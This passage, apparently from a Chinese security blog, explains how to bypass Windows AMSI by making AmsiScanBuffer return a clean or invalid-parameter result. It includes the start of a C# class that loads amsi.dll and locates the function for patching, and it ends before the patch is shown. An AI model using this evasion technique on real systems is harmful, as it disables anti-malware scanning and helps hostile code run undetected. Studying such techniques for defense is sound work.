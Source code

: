 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。

所以说我们可以让函数直接返回0，代表AMSI\_RESULT\_CLEAN，或者改成别的负数，代表在扫描的过程中出现了一些问题，比如说80070057h，就代表`HRESULT_FROM_WIN32(ERROR_INVALID_PARAMETER)`，表示参数无效，而我们如果逆向一下这个函数也会发现函数在执行开始会先检查参数，如果参数出现错误就直接返回这个错误代码。

[![](assets/1709530518-7ce8e99e654ec9717c719c8447dedbab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102047-a539c286-d904-1.png)

所以我们的代码可以如下：

```plain
using System;
using System.Runtime.InteropServices;

namespace Bypass
{
    public class AMSI
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static int Disable()
        {
            IntPtr TargetDLL = LoadLibrary("amsi.dll");
            if (TargetDLL == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve amsi.dll pointer.");
                return 1;
            }

            IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer");
            if (AmsiScanBufferPtr == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve AmsiScanBuffer function pointer");
                return 1;
            }
```